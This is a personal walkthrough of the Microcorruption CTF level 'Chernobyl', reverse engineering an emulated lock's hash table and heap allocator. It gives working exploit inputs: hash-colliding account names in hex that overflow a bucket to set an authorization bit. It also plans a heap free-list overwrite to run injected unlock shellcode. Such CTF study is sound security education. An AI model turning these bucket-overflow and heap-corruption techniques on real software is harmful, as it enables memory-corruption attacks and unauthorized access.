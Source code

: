 # Chernobyl #

- There is a hashtable of users
- There appear to be "commands" you can enter
  - 'access {name} {pin}' = "access" the lock
  - 'new {name} {pin};' = Create a new user (permission not granted by default)

Called with r15 = 3, r14 = 5
`<create_hash_table>`
r15 = max_entries
r14 = items per entry

r10 points at the table structure:
```c
struct table {
    __int16_t item_count;
    __int16_t items_per_bucket;
    __int16_t bucket_count;
    __int8_t *??; // = malloc(2^items_per_bucket)
    __int16_t *item_counts; // = malloc(max_entries * sizeof(__int16_t))
}
```
10 bytes

```c
struct table_entry {
    char name[16];
    union auth_and_pin {
        __int16_t authorized:1;
        __int16_t pin:15;
    }
}
```
18 bytes

example table at 0x5006
```asm
5000:   0050 1050 1500 0100 0300 0500 1650 2c50   .P.P.........P,P
5010:   0050 2650 2100 4250 a250 0251 6251 c251   .P&P!.BP.P.QbQ.Q
5020:   2252 8252 e252 1050 3c50 2100 0000 0000   "R.R.R.P<P!.....
5030:   0000 0100 0000 0000 0000 0000 2650 9c50   ............&P.P
5040:   b500 0000 0000 0000 0000 0000 0000 0000   ................
```

table entry (name = "bob", pin = 1)
```asm
5150:   0000 0000 0000 0000 0000 0000 fc50 bc51   .............P.Q
5160:   b500 626f 6200 0000 0000 0000 0000 0000   ..bob...........
5170:   0000 0100 0000 0000 0000 0000 0000 0000   ................
```

The high bit of the pin field is used to indicate authorization. There is an error message displayed if you specify a numeric value for the pin that has the high bit set.
Idea: need to understand how names are hashed, maybe we can make a collision that overwrites the top bit of a pin? Or maybe the entered user name is not checked for length?

Hash function, very much like usual implementations of `hashCode` when writing Java
```c
__int16_t hash(const char *value) {
    __int16_t result = 0;
    for (unsigned long i = 0; i < strlen(value); i++) {
        __int16_t c = (__int16_t) value[i];
        result = (result + c) * 31;
    }
    return result;
}
```

When the number of entries grows to a certain size, then the table is grown and the items are re-hashed into the new table;

The fact that you can input multiple commands separated by a semi-colon ';' just seems extraneous or maybe even a hint that you're going to put in a lot of accounts to get it to re-hash and then do something after the re-hash. I did see blocks returned by calls to `malloc` that had been used before and freed during a re-hash. The block's data remains intact, but I didn't see how I could use that since it was mostly the 5 18 byte table entry allocations. If they had been aligned a little differently and you could have left behind a lot of bits set and then entered an account name that hashed to that spot, maybe you could have gotten the high bit of the "pin" to have been set by previous contents, but the blocks came back aligned the same way as first time they were used.

Input at sp = 0x3dec, could we just write 4634 bytes of input + fake table data? No, call to `getsn` has it read 0x550 (1360) bytes

Could we try and add so many items that hash to the same bucket that it fills up the bucket? I'm still not totally clear on when the `rehash` call is decided.

From https://medium.com/@vaibhav0109/https-medium-com-vaibhav0109-java-hashcode-collision-how-uniform-is-its-distribution-ee4e5e8dc894

> If String a and String b have a common prefix and the same length — if n and the statement `31*(b[n-2] — a[n-2]) == (a[n-1] — b[n-1])` is true — it means that first and second strings have the same hashcode.

Bingo! If you keep adding accounts that hash to the same bucket, you can overflow the bucket of items.

So place an item in bucket `N`, and then overflow bucket `N-1` such that an item in bucket `N-1`'s `pin` falls on the address of data entered for bucket `N` where the high bit is set. You probably can't just overflow with any old values, because you'll also be overwriting the `name` field. So you have to overwrite with a valid name that would hash to that bucket.

`new abab 0;new bbabbbabbbaccac 1;new bbabbbabbbaddbd 2;new bbabbbabbbaeece 3;new bbabbbabbbaffdf 4;new bbabbbabbbaggeg 5;new bbabbbabbbahhfh 6;new bbabbbabbbaiigi 7`

the 6th item to overrun the preecding bucket overwrites the name with its 7th-16th bytes
the 7th item to overrun the preceding bucket overwrites the pin with its 7th and 8th bytes

entry @0x51c2, pin @51d2

`6e657720626f622010`

`new cb 0;new acb 1;new abcb 2;new aaabcb 3;new aaaaaaabcb 4;new aaaaaaaaabcb 5;new aaaaabcb 6;new ``````0x80 0x80 7;access cb 128`

```
6e657720636220303b
6e65772061636220313b
6e6577206162636220323b
6e65772061616162636220333b
6e6577206161616161616162636220343b
6e65772061616161616161616162636220353b
6e657720616161616162636220363b
6e65772060606060808020373b
61636365737320636220313238

6e657720636220303b6e65772061636220313b6e6577206162636220323b6e65772061616162636220333b6e6577206161616161616162636220343b6e65772061616161616161616162636220353b6e657720616161616162636220363b6e65772060606060808020373b616363657373206362203132383b
```

Well, that works, it results in the message "Access granted." but had I been reading the code a little more critically I would have noticed that that does not actually unlock the lock because nowhere in the code is there a call to the interrupt that does that. So where does that leave us? We must have to execute some of our own code to do it. I did go find some information from other folks who have beaten this level, just to see if there was something I'm missing, but I ended up finding out that just getting a user with access granted is not enough. I'm dissapointed because I felt like I really dove into this one and didn't want any hints, but oh well. I tried not to read any specific details, but from [this site](https://nullset.xyz/2015/12/18/microcorruption-ctf-chernobyl/) I came to realize we have to hijack the heap. Maybe I'll spend some time on that and post a part 2.

# 03/12/2021

Analyzing `malloc` and `free`

Heap header:
```c
struct block {
    __int16_t prev;
    __int16_t next;
    union size_and_used {
        __int16_t size:15;
        __int16_t used:1;
    }
}
```

Executing the `walk` function after `new bob 123`:

```
@5000 [alloc] [p 5000] [n 5010] [s 000a]
 {5006} [ 0001 0003 0005 5016 502c ]
@5010 [alloc] [p 5000] [n 5026] [s 0010]
 {5016} [ 5042 50a2 5102 5162 51c2 5222 5282 52e2 ]
@5026 [alloc] [p 5010] [n 503c] [s 0010]
 {502c} [ 0000 0000 0000 0001 0000 0000 0000 0000 ]
@503c [alloc] [p 5026] [n 509c] [s 005a]
 {5042} [ 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 ]
@509c [alloc] [p 503c] [n 50fc] [s 005a]
 {50a2} [ 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 ]
@50fc [alloc] [p 509c] [n 515c] [s 005a]
 {5102} [ 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 ]
@515c [alloc] [p 50fc] [n 51bc] [s 005a]
 {5162} [ 6f62 0062 0000 0000 0000 0000 0000 0000 007b 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 ]
@51bc [alloc] [p 515c] [n 521c] [s 005a]
 {51c2} [ 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 ]
@521c [alloc] [p 51bc] [n 527c] [s 005a]
 {5222} [ 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 ]
@527c [alloc] [p 521c] [n 52dc] [s 005a]
 {5282} [ 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 ]
@52dc [alloc] [p 527c] [n 533c] [s 005a]
 {52e2} [ 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 ]
@533c [freed] [p 52dc] [n 5000] [s 7cbe]
```

Idea: we can overflow a bucket by hashing > 5 items to the same bucket. If we overflow the last bucket we can overwrite the free chunk's `prev` and/or `next` pointer. Then the next time a `malloc` is called we might be able to get it to return a place in memory that contains code that gets executed, which we then overwrite without our own assembled unlock code:

```
call #0x7F
b0127f00
```

To get more calls to `malloc` we've got to fill up the hash table enough that it rehashes the table.

`new abab 0;new bbabbbabbbaccac 1;new bbabbbabbbaddbd 2;new bbabbbabbbaeece 3;new bbabbbabbbaffdf 4;new bbabbbabbbaggeg 5;new bbabbbabbbahhfh 6`
